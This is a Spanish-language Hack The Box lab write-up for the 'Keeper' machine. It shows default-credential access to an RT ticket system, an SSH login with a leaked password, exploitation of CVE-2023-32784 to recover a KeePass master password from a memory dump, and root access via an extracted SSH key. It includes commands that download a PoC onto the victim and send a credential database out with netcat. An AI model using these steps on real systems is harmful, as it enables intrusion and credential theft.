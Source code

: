 ```yaml
---
title: Keeper
description: Keeper es una máquina Linux de dificultad fácil que presenta un sistema de gestión de tickets de soporte con credenciales por defecto. Al enumerar el servicio, se pueden encontrar credenciales en texto claro que permiten el acceso a SSH. Con acceso a SSH, se puede obtener un volcado de la base de datos de KeePass, lo cual permite recuperar la contraseña maestra. Una vez con acceso a la base de datos de KeePass, se obtienen las claves SSH de root, que permiten obtener una shell con privilegios en el host.
date: 2023-11-06
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-keeper/keeper_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - cve
  - data_leaks
  - misconfigurations
  - ssh
  - http
  - tcp
  - information_gathering
  - web_analysis
  - data_leak_exploitation
  - cve_exploitation
  - privilege_escalation

---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo nmap -sCV 10.10.11.227 -n -Pn -oN map1
```

![](/assets/img/htb-writeup-keeper/keeper2.png)

---
## Web Analysis & Data Leak Exploitation

![](/assets/img/htb-writeup-keeper/keeper3.png)

```terminal
/home/kali/Documents/htb/machines/keeper:-$ echo "10.10.11.227\tkeeper.htb\ttiquets.keeper.htb" | sudo tee -a /etc/hosts
```

![](/assets/img/htb-writeup-keeper/keeper4.png)

Busco las credenciales por defecto del servicio '4.4.4+dfsg-2ubuntu1'.

<https://docs.bestpractical.com/rt/4.4.4/security.html>
>"Be sure to change the password for the 'root' user of RT. The default password is 'password'. This can be changed via the RT web interface at: Preferences > About me"

![](/assets/img/htb-writeup-keeper/keeper5.png)

Encuentro 2 usuarios registrados en el sistema. Y en el usuario 'lnorgaard' encuentro una contraseña 'Welcome2023!'.
 
![](/assets/img/htb-writeup-keeper/keeper6.png)

![](/assets/img/htb-writeup-keeper/keeper7.png)

```terminal
/home/kali/Documents/htb/machines/keeper:-$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: Welcome2023!
lnorgaard@keeper:~$ ls
	RT30000.zip  user.txt
```
---
## Privilege Escalation & CVE Exploitation

```terminal
lnorgaard@keeper:~$ unzip RT30000.zip
	Archive: RT30000.zip
	inflating: KeePassDumpFull.dmp
	extracting: passcodes.kdbx
```

<https://nvd.nist.gov/vuln/detail/CVE-2023-32784>

El archivo 'KeePassDumpFull.dmp' es un volcado de memoria o 'dump' de un proceso de KeePass. La Vulnerabilidad CVE-2023-32784 permite recuperar la contraseña maestra en texto claro a partir de un volcado de memoria, incluso si la base de datos de KeePass está bloqueada o el proceso de KeePass ya no está en ejecución.

Existe un Proof of Concept en github precisamente para esto.
Una vez clonado el PoC, monto un servidor para exportarlo a la maquina victima.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ git clone https://github.com/CMEPW/keepass-dump-masterkey.git

/home/kali/Documents/htb/machines/keeper:-$ python3 -m http.server 

lnorgaard@keeper:~$ wget http://10.10.15.26:8000/poc.py
```

Al explotar el CVE, la primera letra de la contraseña no se recupera.

```terminal
lnorgaard@keeper:~$ python3 poc.py -d KeePassDumpFull.dmp
```

![](/assets/img/htb-writeup-keeper/keeper9.png)

Realizo una busqueda del resultado ```●,dgr●d med fl●d``` y encuentro una palabra en danes que coincide 'rødgrød med fløde'.

Importo 'keepass.kdbx' con Netcat. E instalo Keepass para abrir el archivo anterior.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ nc -nlvp 1234 > keepass.kdbx
	listening on any 1234 ...

lnorgaard@keeper:~$ nc 10.10.15.26 1234 < passcodes.kdbx
	nc 10.10.15.26 1234 < passcodes.kdbx

	... connect to [10.10.15.26] from (UNKNOWN) [10.10.11.227] 60582
	
/home/kali/Documents/htb/machines/keeper:-$ sudo apt install keepass2

/home/kali/Documents/htb/machines/keeper:-$ keepass2 keepass.kdbx
```

![](/assets/img/htb-writeup-keeper/keeper10.png)

![](/assets/img/htb-writeup-keeper/keeper11.png)

![](/assets/img/htb-writeup-keeper/keeper12.png)

 Copio y guardo la clave 'PuTTY' en un archivo '.ppk'.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ echo 'PuTTY-User-Key-File-3.md: ssh-rsa Encrypt…' > key.ppk
```
Para conviertir la clave privada del archivo '.ppk' a un formato '.pem' que OpenSSH puede utilizar, descargo la herramienta Putty-Tools.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo apt install putty-tools 

/home/kali/Documents/htb/machines/keeper:-$ puttygen key.ppk -O private-openssh -o key.pem

/home/kali/Documents/htb/machines/keeper:-$ chmod 600 key.pem

/home/kali/Documents/htb/machines/keeper:-$ ssh -i key.pem root@10.10.11.227

root@keeper:~# cat root.txt
```

> <a href="https://www.hackthebox.com/achievement/machine/1521382/556" target="_blank">Keeper Machine from Hack The Box has been Pwned</a>
{: .prompt-tip }